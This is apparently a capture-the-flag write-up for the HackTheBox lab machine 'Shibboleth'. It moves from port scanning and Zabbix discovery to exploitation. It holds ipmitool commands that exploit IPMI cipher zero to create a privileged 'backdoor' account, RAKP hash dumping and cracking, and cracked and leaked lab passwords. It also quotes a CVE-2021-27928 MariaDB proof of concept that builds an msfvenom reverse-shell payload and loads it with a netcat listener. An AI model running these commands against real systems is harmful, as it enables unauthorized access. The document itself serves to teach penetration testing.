


# Shibboleth



### 11/11/2021

Default nmap scripts and port scan:

```python
bracketz:~/Desktop/shibboleth $ nmap -sC -sV -T4 10.10.11.124 -o default-scan
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 22:46 -03
Nmap scan report for 10.10.11.124
Host is up (0.41s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.31 seconds
```

The entire port scan reported nothing:



Default directories:

```python
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shibboleth.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/13 22:59:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/] 
/server-status        (Status: 403) [Size: 279]
```

Assets directory


Message in the forms directory:


Attempt to run the PHP, but at first sight it doesn't show nothing. 


Subdomains scan, found two subdomains. 


Let's start fuzzing the monittor.shibboleth.htb directory, to discover a lot of files and try find something useful to attack the machine. 


In the first contact with the subdomain, we can known that is a Zabbix, Zabbix is a network monitor software, metrics around network utilization. The majority of directories are blocked with 403 (Forbidden).


Zabbix can have a IPMI implementation, we can try dump hashes, it retrieve HMAC-SHA1 password hashes of default usernames.

By wikipedia: Is a set of computer interface specifications for an autonomous computer subsystem that provides management and monitoring capabilities independently of the host system's CPU, firmware BIOS and operating system.  Hardware monitoring


In UDP scan it returns a IPMI open port:


[https://book.hacktricks.xyz/pentesting/623-udp-ipmi](https://book.hacktricks.xyz/pentesting/623-udp-ipmi)

Enumeration

```python
nmap -n -p 623 ip
nmap -n-sU -p 623
or metasploit auxiliary/scanner/ipmi/ipmi_version
```

We can try retrieve hash via Remote Password Hash retrieval 

You ask the server for the hashes MD5 and SHA1

```python
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

Working with IPMI:

[http://www.staroceans.org/e-book/IPMI-hack.htm](http://www.staroceans.org/e-book/IPMI-hack.htm)

Identifying IPMI Auth.


We can try IPMI cipher zero.

```python
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

This machine accepts IPMI cipher zero:


```python
sudo apt-get install ipmitool
```

And also has a account creation with the commands:

```python
$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set name 2 backdoor

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set password 2 password

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user priv 2 4

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user enable 2

 

$ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
```

### IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval

The BMC will tell you the password hash for any valid user account you request.

The password is broken using bruteforce attack

Dumping administrator hash and saving in a out file:


Crack step:

```python
john ./out.john --wordlist=[]
```

Hashcracked


The crack password is : ilovepumkinpie1

Login with success


On the zabbix we can look at softwares installed:


Go to the discovery:


Zabbix rules creation


Key to run commands: Execute a system command and get the reverse shell in your system.


Analysing users:


Database password:

zabbix_server.conf-124-DBPassword=bloooarskybluh

Mariadb version


[https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html)

Create a elf and execute this with mariadb

```python
# CVE : CVE-2021-27928

# Proof of Concept:

# Create the reverse shell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so

# Start a listener
nc -lvp <port>

# Copy the payload to the target machine (In this example, SCP/SSH is used)
scp CVE-2021-27928.so <user>@<ip>:/tmp/CVE-2021-27928.so

# Execute the payload
mysql -u <user> -p -h <ip> -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
```

Creating the elf:


Getting the file:


Even with error the reverse was executed:


Concluded machine.
